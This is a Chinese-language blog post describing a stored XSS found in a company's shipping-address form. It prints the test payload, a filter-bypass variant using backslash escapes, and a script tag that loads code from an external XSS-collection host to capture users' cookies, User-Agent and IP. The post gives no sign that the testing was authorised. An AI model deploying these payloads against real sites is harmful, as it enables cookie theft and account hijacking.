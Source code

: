 ```yaml
---
title: 【渗透实例】记录一次XSS渗透过程
date: 2019-07-03 22:19:56
id: 190703-221956
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xss1.png
tags:
- 渗透实例
- XSS
categories:
- 渗透实例
---
```


# 0x01 找到存在XSS的位置
没什么技巧，见到框就X，功夫不负有心人，在目标网站编辑收货地址处发现了存在XSS的地方，没想到这种大公司还会存在XSS。
<!--more-->
```
使用的XSS代码：<img src=1 onerror=alert(1)>
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xss1.png)
# 0x02 构造XSS代码连接到XSS平台
XSS平台给我们的XSS代码是这样的：
```
</tExtArEa>'"><sCRiPt sRC=https://xss8.cc/3Ri4></sCrIpT>
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xss2.png)
直接插入的话会提示参数非法，经过多次尝试，最后发现该平台会对双引号、script字符进行识别过滤，大小写会被过滤，于是尝试插入下面的语句:
```
</tExtArEa>'\"><\sCRiPt sRC=https://xss8.cc/3Ri4></\sCrIpT>
```
这条代码比上面平台给的XSS代码的多了几个 "\"，也就是转义字符，利用转义字符可以绕过该平台的策略，因为经验不足，所以在这一步尝试了很多种办法都没能绕过，要不有的可以插入但是连不上XSS平台，要不有的就是被识别拦截。
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xss3.png)
加上转义字符成功插入后，刷新目标网站与XSS平台页面，在XSS平台就能看到刚才的访问记录。
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xss4.png)
这里可以获取该登陆用户的Cookie、User-Agent、IP地址什么的，但是触发这个XSS需要登陆存在XSS的账号才行，所以个人觉着知道了这个Cookie也没啥用。
并且虽然知道这里存在XSS，但是触发条件是需要知道用户名和密码，然后来到收货地址页面，所以个人感觉作用不大，因此在想这个漏洞还有没有其他的利用价值，后续或许会继续更新本次渗透过程，如果你有什么好的想法，欢迎下方留言。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)